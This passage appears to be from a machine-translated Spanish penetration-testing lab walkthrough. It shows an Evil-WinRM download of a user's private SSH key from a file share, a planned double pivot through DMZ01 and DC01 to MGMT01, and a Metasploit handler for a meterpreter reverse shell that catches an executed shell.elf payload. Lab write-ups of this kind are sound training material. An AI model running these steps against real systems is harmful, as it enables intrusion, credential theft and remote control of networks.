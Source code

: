 ```shell-session
Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" /tmp/ssmallsadm-id_rsa 

Info: Downloading C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa to /tmp/ssmallsadm-id_rsa

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> 
```

---

## El doble pivote - MGMT01

Ahora hay algunas maneras de hacer esta próxima parte, tomaremos la ruta larga para que finalmente podamos ssh directamente en el`172.16.9.25`Anfitrión de nuestro cuadro de ataque, realizando un poco de doble pivote alucinante en el proceso. Esto es lo que estamos tratando de lograr, comenzando desde nuestro host de ataque y girando a través de los hosts DMZ01 y DC01 para poder SSH directamente en el host MGMT01 a dos saltos directamente de nuestro host de ataque.

`Attack host` --> `dmz01` --> `DC01` --> `MGMT01`

Tendremos que establecer una carcasa inversa del`dmz01`Box de vuelta a nuestro anfitrión de ataque. Podemos hacer esto lo mismo que hicimos en el`Internal Information Gathering`Sección, creando una carga útil de elfos, cargarla al objetivo y ejecutarlo para atrapar un shell. Comience por crear la carga útil Elf y cargarla nuevamente al host DMZ01 a través de SCP si la eliminó.

A continuación, configure el MetaSploit`exploit/multi/handler`.

  Después de la explotación

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Una vez más, ejecute el`shell.elf`Archivo en el sistema de destino:

  Después de la explotación

```shell-session

root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```
